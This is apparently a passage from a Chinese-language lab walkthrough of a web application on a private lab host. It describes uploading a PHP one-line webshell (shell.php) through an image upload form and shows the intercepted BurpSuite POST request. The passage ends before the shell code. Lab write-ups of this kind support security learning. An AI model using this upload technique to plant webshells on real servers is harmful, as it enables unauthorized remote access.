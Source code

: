 ![image-20251021104524680](images/image-20251021104524680.png)

> 10.0.2.5/index
>
> 默认的登录网站，我真的不相信没有 SQL 注入点

##### /add 子页面

看上去只能上传照片，前端没有 js 检查，应该是后端检查：

尝试上传一个 php 一句话木马 `shell.php`，用 BurpSuite 抓包一下：

```
POST /add HTTP/1.1
Host: 10.0.2.5
Content-Length: 609
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://10.0.2.5
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySAc3kUlEiXINjlY8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.0.2.5/add
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ivqiuu7jaq7egeeijdbacpn1r4
Connection: keep-alive

------WebKitFormBoundarySAc3kUlEiXINjlY8
Content-Disposition: form-data; name="image"; filename="shell.php"
Content-Type: application/x-php

```
